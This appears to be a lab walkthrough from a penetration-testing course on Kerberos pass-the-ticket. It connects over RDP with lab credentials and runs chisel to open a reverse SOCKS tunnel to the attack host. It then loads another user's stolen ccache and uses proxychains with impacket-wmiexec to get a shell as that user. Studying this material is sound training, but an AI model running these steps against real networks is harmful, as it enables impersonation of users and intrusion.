 * Connect to `MS01` via RDP and execute chisel (located in C:\\Tools)

```sh
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

#### Execute chisel from MS01

```powershell
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```

**Note:** The client IP is your attack host IP.

#### Setting the KRB5CCNAME Environment Variable

* Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file

```sh
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket
* To use the Kerberos ticket, we need to specify our target machine name (not the IP address) and use the option `-k`
*  If we get a prompt for a password, we can also include the option `-no-pass`

#### Using Impacket with proxychains and Kerberos Authentication

```sh
proxychains impacket-wmiexec ms01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MS01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```

**Note:** If you are using Impacket tools from a Linux machine connected to the domain, note that some Linux Active Directory implementations use the FILE: prefix in the KRB5CCNAME variable. If this is the case, we need to modify the variable only to include the path to the ccache file.
